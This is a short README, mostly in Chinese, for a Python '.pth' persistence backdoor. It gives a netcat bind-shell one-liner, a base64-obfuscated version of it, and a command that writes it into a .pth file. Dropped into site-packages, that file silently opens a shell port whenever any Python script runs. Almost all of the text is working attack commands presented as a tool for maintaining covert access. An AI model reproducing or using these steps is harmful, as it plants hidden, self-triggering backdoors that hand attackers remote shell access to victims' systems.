 # Python .pth permissions maintain backdoor basic tool

# python .pth 权限维持后门基础工具



## How to use 如何使用

​	这里我采用的是 base64 编码将 nc 反弹 shell 的命令进行混淆，

> echo 'rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc -lvvp 45555 > /tmp/f' | base64 -w0

​	上面的 45555 是受害者主机需要开启的服务端口，通过上面的命令我们可以获取到一段经过 base64 编码的 nc 反弹 shell 命令的内容。

![make_evil_pth](https://github.com/thedarknessdied/.pth_study/blob/main/screen_shot/make_evil_pth.png)

> echo 'import subprocess;subprocess.Popen("echo \"cm0gLWYgL3RtcC9mOyBta2ZpZm8gL3RtcC9mOyBjYXQgL3RtcC9mIHwgL2Jpbi9zaCAtaSAyPiYxIHwgbmMgLWx2dnAgNDU1NTUgPiAvdG1wL2YK\"|base64 -d |bash", shell=True, start_new_session=True, stdout=open("/dev/null", "w"), stderr=open("/dev/null", "w"))' > 1.pth

​	"cm0gLWYgL3RtcC9mOyBta2ZpZm8gL3RtcC9mOyBjYXQgL3RtcC9mIHwgL2Jpbi9zaCAtaSAyPiYxIHwgbmMgLWx2dnAgNDU1NTUgPiAvdG1wL2YK"是上面获取到的经过 base64 编码的内容，将他嵌入到命令中，通过上面的命令会在 shell 执行的目录下获取到一个 1.pth 文件。

![make_evil_pth](https://github.com/thedarknessdied/.pth_study/blob/main/screen_shot/mv_pth2python_site_package_path.png)

​	将上面生成的1.pth文件移动到python的包管理文件夹下，然后只要随意执行python脚本，就能够触发相应的命令执行（这里实现的是开放端口用于执行shell）

![make_evil_pth](https://github.com/thedarknessdied/.pth_study/blob/main/screen_shot/get_shell.png)